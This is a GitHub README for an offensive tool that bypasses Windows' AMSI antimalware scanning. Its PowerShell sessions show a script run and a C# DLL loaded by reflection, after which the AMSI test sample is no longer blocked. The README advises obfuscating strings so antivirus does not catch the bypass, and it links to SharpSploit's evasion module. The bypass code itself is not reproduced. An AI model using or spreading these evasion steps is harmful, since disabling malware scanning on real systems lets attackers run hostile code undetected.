


# AmsiScanBufferBypass

## Usage
### PowerShell

`ASBBypass.ps1` works for both x86 and x64 PowerShell.  Before use, I recommend obfuscating strings such as `Win32` to something random.

```
PS > Invoke-Expression 'AMSI Test Sample: 7e72c3ce-861b-4339-8740-0ac1484c1386'
At line:1 char:1
+ Invoke-Expression 'AMSI Test Sample: 7e72c3ce-861b-4339-8740-0ac1484c ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software.
    + CategoryInfo          : ParserError: (:) [], ParentContainsErrorRecordException
    + FullyQualifiedErrorId : ScriptContainedMaliciousContent

PS > .\ASBBypass.ps1

PS > Invoke-Expression 'AMSI Test Sample: 7e72c3ce-861b-4339-8740-0ac1484c1386'
AMSI : The term 'AMSI' is not recognized as the name of a cmdlet, function, script file, or operable program. Check the spelling of the name, or if a path was included, verify
that the path is correct and try again.
At line:1 char:1
+ AMSI Test Sample: 7e72c3ce-861b-4339-8740-0ac1484c1386
+ ~~~~
    + CategoryInfo          : ObjectNotFound: (AMSI:String) [], CommandNotFoundException
    + FullyQualifiedErrorId : CommandNotFoundException
```

### C#

Can be compiled to a DLL and loaded via reflection, or included in a larger .NET Assembly (e.g. [SharpSploit](https://github.com/cobbr/SharpSploit/blob/master/SharpSploit/Evasion/Amsi.cs)).

```
PS > [System.Reflection.Assembly]::LoadFile("D:\Tools\ASBBypass\ASBBypass\bin\Release\ASBBypass.dll")

GAC    Version        Location
---    -------        --------
False  v4.0.30319     D:\Tools\ASBBypass\ASBBypass\bin\Release\ASBBypass.dll


PS > [Amsi]::Bypass()
PS > Invoke-Expression 'AMSI Test Sample: 7e72c3ce-861b-4339-8740-0ac1484c1386'
AMSI : The term 'AMSI' is not recognized as the name of a cmdlet, function, script file, or operable program. Check the spelling of the name, or if a path was included, verify that the path is correct and try again.
At line:1 char:1
+ AMSI Test Sample: 7e72c3ce-861b-4339-8740-0ac1484c1386
+ ~~~~
    + CategoryInfo          : ObjectNotFound: (AMSI:String) [], CommandNotFoundException
    + FullyQualifiedErrorId : CommandNotFoundException
```

Also works with `Assembly.Load` in .NET 4.8.


